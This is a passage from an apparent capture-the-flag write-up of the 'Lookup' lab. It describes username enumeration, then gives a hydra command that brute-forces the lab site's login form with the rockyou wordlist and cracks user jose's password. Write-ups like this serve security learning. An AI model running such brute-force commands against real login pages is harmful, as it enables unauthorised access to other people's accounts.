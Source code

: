 ![Username enumeration dark](/assets/images/lookup/dark/userenum.png){: .dark }

As can be seen in the screenshot, I ran my script with the `time` command. It took ~7 sec to find the valid usernames.
Pretty fast!

Ok. Now I got two usernames, one of them I already guessed and also tried to brutefoce.
I decided to handle the second username the same way, just to be safe.

## Foothold

First of first, I started to brute-force the website login.


```bash
hydra -l jose -P rockyou.txt -f lookup.thm http-form-post "/login.php:username=^USER^&password=^PASS^:Wrong"
```
{: .nolineno}

> If I add flags or other arguments after the methode (http-form-port), hydra didn't do anything.
> To work, I had to let the command line end with the method used.
{: .prompt-info }

Short run with [rockyou](https://www.google.com/url?sa=t&source=web&rct=j&opi=89978449&url=https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt) wordlist, and jose's password is cracked!
With this credentials, I was able to login to the website as jose.
